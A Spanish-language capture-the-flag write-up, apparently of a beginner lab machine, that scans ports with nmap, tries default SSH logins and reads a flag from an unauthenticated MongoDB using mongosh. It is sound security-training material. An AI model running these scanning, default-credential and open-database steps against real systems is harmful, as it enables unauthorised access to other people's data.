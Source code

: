 ## Datos principales

* #Enumeracion 
* #MongoDB
* #basesdedatos
* #Acceso sin credenciales / Credenciales por defecto
* SO : #Linux

## Enumeración de puertos

Para  empezar el escaneo usamos la herramienta Nmap , en nuestra fase de descubrimiento , como se puede apreciar tenemos los siguientes puertos abiertos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.152.231
```

Puertos abiertos:
22 --> ssh
27017 --> mongodb

Probamos acceder al servicio ssh con las credenciales típicas 

```bash
ssh <usuario>@<ip>
ssh admin@10.129.152.231
ssh root@10.129.152.231
ssh anonymous@10.129.152.231
```

Sin embargo no podemos acceder por lo tanto vamos a probar con otro servicio que es mongo

Para ello previamente me he descargado los paquetes necesarios

Para conectarme a la base de datos he usado el siguiente comando

```bash
mongosh 10.129.152.231
```


![[Pasted image 20230409180012.png]]

Nos abre una shell para meter comandos, por lo tanto voy mostrar la base de datos

```bash
test> show dbs
admin
config
local
sensitive_information
users
```

Vemos que hay un campo que se llama sensitive_information por lo tanto voy a ver si la puedo usar y ver que contenido tiene

```bash
test> use sensitive_information
```

Mostramos el contenido de la base de datos 

```bash
sensitive_information> show collections
flag
```

Podemos ver que nos encontramos con un campo que se llama flag , ahora vamos a intentar ver el contenido y poder descubrir la flag para eso vamos al hacer uso de la api de mongodb

Para ello he intentado los siguientes comandos buscando como mostrar el contenido

Db.flag.getIndex/ Db.flag.getName…. sin embargo no he podido acceder

![[Pasted image 20230409180944.png]]

Por último finalemte doy con la clave de mostrarlo con el comando

```bash
sensitive_information> db.flag.find()
```

![[Pasted image 20230409181155.png]]
